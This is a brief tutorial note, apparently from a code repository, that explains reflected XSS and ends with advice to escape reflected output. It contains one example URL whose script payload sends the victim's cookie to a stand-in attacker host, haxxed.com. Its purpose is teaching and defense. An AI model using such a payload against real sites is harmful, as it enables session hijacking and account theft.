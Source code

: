 # XSS Reflected
If a site is vulnerable to reflected XSS, an attacker could craft the following URL to get its cookie from another user:
```
www.welp.com?search=<script>window.location="http://haxxed.com?cookie="+document.cookie</script>
```

The above link which is apparently from welp.com would redirect the victim who clicked it to hoaxed.com and would send his/her welp.com cookie as a query parameter. Since the attacker controls haxxed.com, he/she could check server logs and retrieve the victim’s cookie for welp.com

## Important:
Always make sure results that are reflected to the user in any way, search results, error pages and form submissions are properly escaped.